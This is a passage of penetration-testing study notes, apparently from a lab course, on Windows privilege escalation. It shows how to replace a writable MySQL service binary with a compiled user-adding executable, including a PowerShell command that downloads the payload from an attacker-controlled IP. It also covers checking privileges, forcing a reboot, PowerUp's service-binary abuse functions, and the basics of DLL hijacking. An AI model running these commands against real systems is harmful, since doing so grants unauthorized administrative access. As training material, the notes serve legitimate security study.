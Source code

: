 ```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

```pwsh
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

```bat
net stop mysql
```

Get a list of all privileges, The **Disabled** state only indicates if the privilege is currently enabled for the running process

```bat
whoami /priv
```

In order to issue a reboot, user needs to have the privilege **SeShutDownPrivilege** assigned.

```bat
shutdown /r /t 0
```

`PowerUp.ps1` check if it detects this privilege escalation vector

Displays services the current user can modify, such as the service binary or configuration files

```pwsh
. .\PowerUp.ps1

Get-ModifiableServiceFile

Install-ServiceBinary -Name 'mysql'
```

### Service DLL Hijacking

Windows uses **Dynamic Link Libraries (DLL)**.

On Unix systems, these files are called **Shared Objects**.

1. **Overwrite a DLL** the service binary uses (the service may not work as expected because the actual DLL functionality is missing. In most cases, this would still lead us to code execution of the DLL's code and then, e.g., to the creation of a new local administrative user)

2. **Hijack the DLL search order**

The **search order** determines what to inspect first when searching for DLLs. By default, all current Windows versions have safe DLL search mode enabled.

Standard search order taken from the Microsoft Documentation:

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.
